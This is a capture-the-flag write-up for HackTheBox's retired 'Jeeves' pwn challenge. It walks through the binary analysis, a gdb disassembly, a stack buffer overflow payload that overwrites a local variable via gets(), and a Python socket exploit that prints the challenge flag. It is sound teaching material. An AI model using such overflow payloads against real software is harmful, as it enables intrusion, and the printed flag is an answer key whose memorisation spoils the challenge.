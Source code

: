 ```yaml
---
layout: post
title: HackTheBox - Jeeves (Pwn) (Retired Challenge)
date: 2021-04-16
categories: HackTheBox pwn
---
```


Category: Pwn

Difficulty: Easy

Challenge Creator: MinatoTW

## Overview
This challenge is part of Hack The Box's Intro to Binary Exploitation track and, while not particularly difficult, serves as a good introduction to practice some fundamental concepts. In this example we cover some common file analysis techniques, disassemble an executable using gdb, and perform basic byte manipulation and network programming with python 3.


## File Analysis
After downloading and extracting the file, we can begin by running `file` to better understand what this file is. The result shows that the file is a x86-64 linux unstripped executable.
```
$file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped

```
Next we'll run `checksec` to see what kind of protections the executable has. In this case, there are no stack canaries that we need to be concerned about overwritting, but ASLR (PIE) is enabled and the NX flag tells us that the stack is marked as non-executable.
```
$checksec --format=json --file=jeeves
{
   "jeeves":{
      "relro":"full",
      "canary":"no",
      "nx":"yes",
      "pie":"yes",
      "rpath":"no",
      "runpath":"no",
      "symbols":"yes",
      "fortify_source":"no",
      "fortified":"0",
      "fortify-able":"3"
   }
}
```
We can also quickly run `strings` to see if there is anything of note. Below we can see what looks to be a prompt, and a `flag.txt` file near some formatting flags `%s`, so perhaps we can get the program to pring the contents of flag.txt somehow.
```
$strings jeeves
...[truncated]...
Hello, good sir!
May I have your name? 
Hello %s, hope you have a good day!
flag.txt
Pleased to make your acquaintance. Here's a small gift: %s
...[truncated]...
```
Since the executable is not stripped, we can disassemble the executable by `disass main` in gdb. The starred line in the output below shows a comparison of the value at `rbp-4` to `0x1337bab3`. If this comparison fails, the application jumps to `main+191` where it exits. If the comparison succeeds, the application eventually calls `open`, `read`, and `print`, which may be associated with the `flag.txt` we found earlier.
```m
(gdb) disass main
Dump of assembler code for function main:
   0x00000000000011e9 <+0>:	endbr64 
   0x00000000000011ed <+4>:	push   %rbp
   0x00000000000011ee <+5>:	mov    %rsp,%rbp
   0x00000000000011f1 <+8>:	sub    $0x40,%rsp
   0x00000000000011f5 <+12>:	movl   $0xdeadc0d3,-0x4(%rbp)
   0x00000000000011fc <+19>:	lea    0xe05(%rip),%rdi        # 0x2008
   0x0000000000001203 <+26>:	mov    $0x0,%eax
   0x0000000000001208 <+31>:	call   0x10a0 <printf@plt>
   0x000000000000120d <+36>:	lea    -0x40(%rbp),%rax
   0x0000000000001211 <+40>:	mov    %rax,%rdi
   0x0000000000001214 <+43>:	mov    $0x0,%eax
   0x0000000000001219 <+48>:	call   0x10d0 <gets@plt>
   0x000000000000121e <+53>:	lea    -0x40(%rbp),%rax
   0x0000000000001222 <+57>:	mov    %rax,%rsi
   0x0000000000001225 <+60>:	lea    0xe04(%rip),%rdi        # 0x2030
   0x000000000000122c <+67>:	mov    $0x0,%eax
   0x0000000000001231 <+72>:	call   0x10a0 <printf@plt>
***0x0000000000001236 <+77>:	cmpl   $0x1337bab3,-0x4(%rbp)
   0x000000000000123d <+84>:	jne    0x12a8 <main+191>
   0x000000000000123f <+86>:	mov    $0x100,%edi
   0x0000000000001244 <+91>:	call   0x10e0 <malloc@plt>
   0x0000000000001249 <+96>:	mov    %rax,-0x10(%rbp)
   0x000000000000124d <+100>:	mov    $0x0,%esi
   0x0000000000001252 <+105>:	lea    0xdfc(%rip),%rdi        # 0x2055
   0x0000000000001259 <+112>:	mov    $0x0,%eax
   0x000000000000125e <+117>:	call   0x10f0 <open@plt>
   0x0000000000001263 <+122>:	mov    %eax,-0x14(%rbp)
   0x0000000000001266 <+125>:	mov    -0x10(%rbp),%rcx
   0x000000000000126a <+129>:	mov    -0x14(%rbp),%eax
   0x000000000000126d <+132>:	mov    $0x100,%edx
   0x0000000000001272 <+137>:	mov    %rcx,%rsi
   0x0000000000001275 <+140>:	mov    %eax,%edi
   0x0000000000001277 <+142>:	mov    $0x0,%eax
   0x000000000000127c <+147>:	call   0x10c0 <read@plt>
   0x0000000000001281 <+152>:	mov    -0x10(%rbp),%rax
   0x0000000000001285 <+156>:	mov    %rax,%rsi
   0x0000000000001288 <+159>:	lea    0xdd1(%rip),%rdi        # 0x2060
   0x000000000000128f <+166>:	mov    $0x0,%eax
   0x0000000000001294 <+171>:	call   0x10a0 <printf@plt>
   0x0000000000001299 <+176>:	mov    -0x14(%rbp),%eax
   0x000000000000129c <+179>:	mov    %eax,%edi
   0x000000000000129e <+181>:	mov    $0x0,%eax
   0x00000000000012a3 <+186>:	call   0x10b0 <close@plt>
   0x00000000000012a8 <+191>:	mov    $0x0,%eax
   0x00000000000012ad <+196>:	leave  
   0x00000000000012ae <+197>:	ret    
End of assembler dump.
```

## Exploitation
We can start by trying to get the comparison to pass and seeing what happens. To do this, we need to write the value 0f `0x1337bab3` into memory at `rbp-4`. If we take a closer look at lines `main+8` and `main+12` in the instructions above, we see that the stack size is is `0x40 (64 bytes)` to `rsp`, and that the value currently stored at `rbp-4` is `0xdeadc0d3`. This means that to overwrite this value we need a buffer of 60 bytes plus our four byte value. Testing this locally gives an interesting prompt that looks promising.

```
$python3 -c "import sys;sys.stdout.buffer.write(b'A' * 60 + b'\xb3\xba\x37\x13')" | ./jeeves 
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
```

Note that since we're using python 3 we want to use bytes, and when writing to the terminal we use `sys.stdout.write()` instead of `print()`. Additionally, we write `1337bab3` as `\xb3\xba\x37\x13` to account for the little endian byte ordering of x86 architecture. Consider the following variations of this code and the corresponding hexdumps. Note that example 1 almost gives the correct output, but due to unicode encoding we end up with some extra bytes. Example 2 attempts to convert this to bytes, but we once again end up with the wrong values due to encoding from python 3's `print()`. In example 3 we skip `print()` altogether and send our bytes directly to `sys.stdout.write()` to avoid annoying string manipulation. Luckily this isn't an issue when we send our payload over a network connection, which we will do when creating out remote exploit.

```
Example 1

$python3 -c "print('A' * 60 + '\xb3\xba\x37\x13')" > payload
$hexdump payload
0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 b3c2 bac2
0000040 1337 000a                              
0000043

Example 2

$python3 -c "print(b'A' * 60 + b'\xb3\xba\x37\x13')" > payload
$hexdump payload
0000000 2762 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 4141 785c
0000040 3362 785c 6162 5c37 3178 2733 000a     
000004d

Example 3

$python3 -c "import sys;sys.stdout.buffer.write(b'A' * 60 + b'\xb3\xba\x37\x13')" > payload
$hexdump payload
0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 bab3 1337
0000040
```

## Full Implementation (Python 3.9)
```python
#!/usr/bin/python3

import socket

# Create a TCP connection
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the remote host running the application
client.connect(('139.59.178.146', 31974))

# Craft the payload we tested plus '\n' to denote the
# the end of our input
payload = b'A' * 60 + b'\xb3\xba\x37\x13\n'

# Send the payload to the remote host
client.send(payload)

# Receive the response and print it
response = client.recv(4096)
print(response)

# Close the TCP connection
client.close()

```
```
$./exploit.py 
b"Hello, good sir!\nMay I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!\nPleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}\n\n"
```